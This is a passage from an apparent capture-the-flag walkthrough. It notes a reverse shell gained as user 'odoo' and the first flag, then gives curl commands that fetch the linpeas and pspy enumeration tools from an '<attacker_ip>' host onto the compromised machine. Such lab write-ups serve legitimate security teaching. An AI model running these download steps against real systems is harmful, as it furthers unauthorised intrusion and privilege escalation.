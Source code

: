 - We have a reverse-shell as the user `odoo`
- The fist flag can be found inside its home directory  
    ![19cc5a0f1ceb479079365559758e19ea.png](./_resources/19cc5a0f1ceb479079365559758e19ea.png)

# Flag 2

Let's get `linpeas` and `pspy` onto the machine

```bash
python3 -m http.server 80 # Attacker machine (run inside linpeas and pspy direcory)
curl <attacker_ip>/linpeas.sh -o linpeas.sh
curl <attacker_ip>/pspy64 -o pspy
chmod 700 linpeas.sh pspy
```

![380da9c6165f8b13d51e22d648c7c0b1.png](./_resources/380da9c6165f8b13d51e22d648c7c0b1.png)
